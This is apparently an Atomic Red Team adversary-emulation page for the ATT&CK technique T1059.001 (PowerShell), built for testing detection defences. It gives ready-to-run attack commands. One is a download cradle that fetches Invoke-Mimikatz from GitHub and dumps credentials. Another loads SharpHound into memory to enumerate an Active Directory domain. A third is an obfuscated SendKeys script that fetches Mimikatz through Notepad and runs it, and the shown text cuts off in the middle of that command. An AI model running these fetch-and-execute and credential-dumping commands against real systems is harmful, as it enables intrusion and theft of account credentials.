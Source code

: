 # T1059.001 - Command and Scripting Interpreter: PowerShell
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1059/001)
<blockquote>Adversaries may abuse PowerShell commands and scripts for execution. PowerShell is a powerful interactive command-line interface and scripting environment included in the Windows operating system.(Citation: TechNet PowerShell) Adversaries can use PowerShell to perform a number of actions, including discovery of information and execution of code. Examples include the <code>Start-Process</code> cmdlet which can be used to run an executable and the <code>Invoke-Command</code> cmdlet which runs a command locally or on a remote computer (though administrator permissions are required to use PowerShell to connect to remote systems).

PowerShell may also be used to download and run executables from the Internet, which can be executed from disk or in memory without touching disk.

A number of PowerShell-based offensive testing tools are available, including [Empire](https://attack.mitre.org/software/S0363),  [PowerSploit](https://attack.mitre.org/software/S0194), [PoshC2](https://attack.mitre.org/software/S0378), and PSAttack.(Citation: Github PSAttack)

PowerShell commands/scripts can also be executed without directly invoking the <code>powershell.exe</code> binary through interfaces to PowerShell's underlying <code>System.Management.Automation</code> assembly DLL exposed through the .NET framework and Windows Common Language Interface (CLI).(Citation: Sixdub PowerPick Jan 2016)(Citation: SilentBreak Offensive PS Dec 2015)(Citation: Microsoft PSfromCsharp APR 2014)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mimikatz](#atomic-test-1---mimikatz)

- [Atomic Test #3 - Run Bloodhound from Memory using Download Cradle](#atomic-test-3---run-bloodhound-from-memory-using-download-cradle)

- [Atomic Test #4 - Mimikatz - Cradlecraft PsSendKeys](#atomic-test-4---mimikatz---cradlecraft-pssendkeys)

<br/>

## Atomic Test #1 - Mimikatz
Download Mimikatz and dump credentials. Upon execution, mimikatz dump details and password hashes will be displayed.

**Supported Platforms:** Windows


**auto_generated_guid:** f3132740-55bc-48c4-bcc0-758a459cd027





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| mimurl | Mimikatz url | url | https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
```






<br/>
<br/>


## Atomic Test #3 - Run Bloodhound from Memory using Download Cradle
Upon execution SharpHound will load into memory and execute against a domain. It will set up collection methods, run and then compress and store the data to the temp directory. If system is unable to contact a domain, proper execution will not occur.

Successful execution will produce stdout message stating "SharpHound Enumeration Completed". Upon completion, final output will be a *BloodHound.zip file.

**Supported Platforms:** Windows


**auto_generated_guid:** bf8c1441-4674-4dab-8e4e-39d93d08f9b7






#### Attack Commands: Run with `powershell`! 


```powershell
write-host "Remote download of SharpHound.ps1 into memory, followed by execution of the script" -ForegroundColor Cyan
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1');
Invoke-BloodHound -OutputDirectory $env:Temp
Start-Sleep 5
```

#### Cleanup Commands:
```powershell
Remove-Item $env:Temp\*BloodHound.zip -Force
```





<br/>
<br/>

## Atomic Test #4 - Mimikatz - Cradlecraft PsSendKeys
Run mimikatz via PsSendKeys. Upon execution, automated actions will take place to open file explorer, open notepad and input code, then mimikatz dump info will be displayed.

**Supported Platforms:** Windows


**auto_generated_guid:** af1800cf-9f9d-4fd1-a709-14b1e6de020d






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$url='https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1';$wshell=New-Object -ComObject WScript.Shell;$reg='HKCU:\Software\Microsoft\Notepad';$app='Notepad';$props=(Get-ItemProperty $reg);[Void][System.Reflection.Assembly]::LoadWithPartialName('System.Windows.Forms');@(@('iWindowPosY',([String]([System.Windows.Forms.Screen]::AllScreens)).Split('}')[0].Split('=')[5]),@('StatusBar',0))|ForEach{SP $reg (Item Variable:_).Value[0] (Variable _).Value[1]};$curpid=$wshell.Exec($app).ProcessID;While(!($title=GPS|?{(Item Variable:_).Value.id-ieq$curpid}|ForEach{(Variable _).Value.MainWindowTitle})){Start-Sleep -Milliseconds 500};While(!$wshell.AppActivate($title)){Start-Sleep -Milliseconds 500};$wshell.SendKeys('^o');Start-Sleep -Milliseconds 500;@($url,(' '*1000),'~')|ForEach{$wshell.SendKeys((Variable _).Value)};$res=$Null;While($res.Length -lt 2){[Windows.Forms.Clipboard]::Clear();@('^a','^c')|ForEach{$wshell.SendKeys((Item Variable:_).Value)};Start-Sleep -Milliseconds 500;$res=([Windows.Forms.Clipboard]::GetText())};[Windows.Forms.Clipboard]::Clear();@('%f','x')|ForEach{$wshell.SendKeys((Variable _).Value)};If(GPS|?{(Item Variable:_).Value.id-ieq$curpid}){@('{TAB}','~')|ForEach{$wshell.SendKeys((Item Variable:_).Value)}};@('iWindowPosDY','iWindowPosDX','iWindowPosY','iWindowPosX','StatusBar')|ForEach{SP $reg (Item Variable:_).Value $props.((Variable _).Value)};IEX($res);invoke-mimikatz -dumpcr
```






<br/>
<br/>


<br/>
